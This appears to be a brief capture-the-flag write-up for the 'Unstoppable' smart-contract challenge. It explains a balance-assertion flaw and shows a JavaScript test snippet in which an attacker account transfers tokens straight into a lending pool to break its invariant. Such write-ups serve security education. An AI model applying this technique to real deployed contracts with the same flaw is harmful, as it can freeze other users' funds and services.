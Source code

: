 # Unstoppable

## Problem

An assertion is made based on the contract balance AND it assumes funds can only enter the contract via one function.

## Exploit

```js
// unstoppable.challenge.js
...
this.token.connect(attacker)
await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
...
```

## Explanation

```txt
attacker - challenger account
Connect to the token as the attacker
Transfer into the the pool account without going through the expected function
```